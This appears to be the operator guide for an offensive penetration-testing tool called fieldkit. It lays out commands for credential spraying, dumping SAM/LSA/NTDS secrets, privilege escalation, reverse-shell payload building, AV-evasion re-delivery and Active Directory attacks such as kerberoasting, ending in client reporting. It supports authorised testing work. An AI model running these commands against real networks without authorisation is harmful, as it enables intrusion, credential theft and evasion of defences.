

# fieldkit — the operator workflow

One page for a tester picking up fieldkit: **what a run looks like end to end, and every
branch to the finish.** Everything is a projection of one SQLite store — stop, inspect with
`status` / `analyze`, and resume at any fork without losing state.

## The map



## The canonical run

```bash
# 1 · set up
fieldkit init "ACME Corp"
fieldkit config set client=ACME lhost=10.10.14.9 lport=443 domain=corp.local

# 2 · scope in — ONE of three forms
fieldkit add hosts 10.0.0.7            # a single IP
fieldkit add hosts 10.0.0.0/24         # a CIDR range
fieldkit add hosts scope.txt           # a file: IPs + CIDRs + # comments

# 3 · a credential you have
fieldkit add cred 'corp.local/jdoe:Winter2025!'

# 4 · run the loop: spray → parse Pwn3d! → loot admin hosts → promote secrets → repeat
fieldkit spray smb                     # foothold, loots svc_adm, svc_adm pivots to the DC

# 5 · enumerate the foothold, then rank what it unlocked
fieldkit enum 10.0.0.7
fieldkit analyze

# 6 · escalate — the orchestrator walks the ranked vectors, stops at first proof
fieldkit escalate 10.0.0.7 --allow config-change

# 7 · go wide in AD (optional, any order — each feeds analyze)
fieldkit roast --dc 10.0.0.10
fieldkit delegation --dc 10.0.0.10
fieldkit adcs find --dc 10.0.0.10
fieldkit bloodhound import ./bh/

# 8 · deliver
fieldkit report --check                       # anti-fabrication gate
fieldkit report --formats md,docx -o report   # Findings + Observations
fieldkit report --cleanup -o report           # INTERNAL revert checklist
fieldkit export-recce recce.json
```

`status` is the board at any point; `analyze` re-ranks after every new fact.

## Every other iteration to the finish

The spine forks at each stage. These are the paths a real engagement takes.

**How you get IN**
- **You have a cred** → `add cred` (`DOMAIN\user:pass`, `user@dom:pass`, `user:LM:NT` hash, `--from-file`, `--user/--password`).
- **You have a prior nxc capture** → `ingest nxc run.log` instead of spraying.
- **The loop finds it** → `spray` loots SAM/LSA/NTDS on every admin host, promotes recovered secrets to creds, and re-sprays them **until dry**. Lockout-safe: each account only ever replays its *own* proven secret.

**Protocol branch** — `spray smb | winrm | ssh | rdp | mssql | ldap | ftp`
- **smb (admin)** → loud command exec + loot. **winrm / ssh** → quiet non-admin foothold.
- Command execution rides **smb / winrm / ssh** only. `rdp/mssql/ldap/ftp` currently **validate credentials** and feed the loop, but are **not** execution transports yet — mssql in particular (xp_cmdshell / linked servers / `EXECUTE AS`) is a known gap, not a foothold-to-shell path.

**OS branch** — enum auto-picks a Windows or Linux plan (SSH access infers Linux). Different OS ⇒ different vectors: SeImpersonate / AlwaysInstallElevated / service-hijacks vs sudo / SUID / caps / LD_PRELOAD.

**How you ESCALATE** (the richest fork)
- `escalate` (auto, walks all ranked vectors) **vs** `run <host> <vector>` (fire one by hand).
- **Gate:** read-only runs freely; `config-change` / `crash-risk` need `--allow`.
- **Auto-provision on a miss:** tool absent → **auto-stage** from the arsenal (`--put-file`); payload absent → **auto-build** via `poc` (msfvenom/wixl/gcc) then stage; wrong arch → **rebuild** corrected and retry.
- **Evasion re-delivery:** a delivery caught by AV → marked red, loop **climbs the ladder** (native-exe → in-memory → script) in posture order.
- **Manual routes** (overwrite a running binary / plant a DLL — can't be one-shot): `escalate` surfaces them → **`prep <host> <vector>`** builds the artifact and prints where to place it + the exact steps (`--stage` uploads it).
- **Side-trips:** `poc <fmt>` (standalone payloads; `--lhost/--lport` revshell; `--source` your own), `poc --check`, `escalate --dry-run / --rules / --max / --no-stage`, `arsenal check`, `posture`, `lab test` (green a technique vs a Defender lab).

**AD depth feeds back** — `roast` → crack offline → `add cred` the cracked secret → `spray` again. `bloodhound import` finds owned→DA paths; `delegation` / `adcs` surface more routes. All land in `analyze`.

## Findings vs Observations (in the report)

The report separates two deliberately distinct results:

| | **Finding** | **Observation** |
|---|---|---|
| meaning | a weakness we **proved by exploiting it** | a weakness we **identified but did not exploit** |
| evidence | verbatim command + captured output (reproducible) | the enumeration output that surfaced it |
| in the report | full technical walkthrough + "Proof of compromise" + screenshot placeholders | "Potential impact (if exploited)" + "How to confirm" |
| status | a demonstrated compromise | real but **unconfirmed** — validate before relying on remediation |

`fieldkit report` includes **both** by default. `--proven-only` gives the tight
Findings-only deliverable. `report --check` (anti-fabrication) gates on Findings — an
Observation legitimately has no PoC to check.

## Command quick-reference

| Stage | Command |
|---|---|
| set up | `preflight` · `init` · `config set/show/get/unset` |
| scope | `add hosts <IP\|CIDR\|file>` `[--dc]` |
| creds | `add cred <spec>` `[--from-file]` |
| loop | `spray <proto>` · `ingest nxc <log>` |
| board | `status` · `analyze` `[--proof]` |
| escalate | `enum <ip>` · `run <ip> <vector>` · `escalate <ip> [--allow …]` |
| provision | `prep <ip> <vector> [--stage]` · `poc <fmt> [--lhost/--lport]` · `arsenal` |
| AD | `roast --dc <ip>` · `delegation --dc <ip>` · `adcs find --dc <ip>` · `bloodhound import <dir>` |
| evasion | `posture` · `lab test` |
| deliver | `report [--proven-only\|--check\|--cleanup]` · `export-recce <json>` |
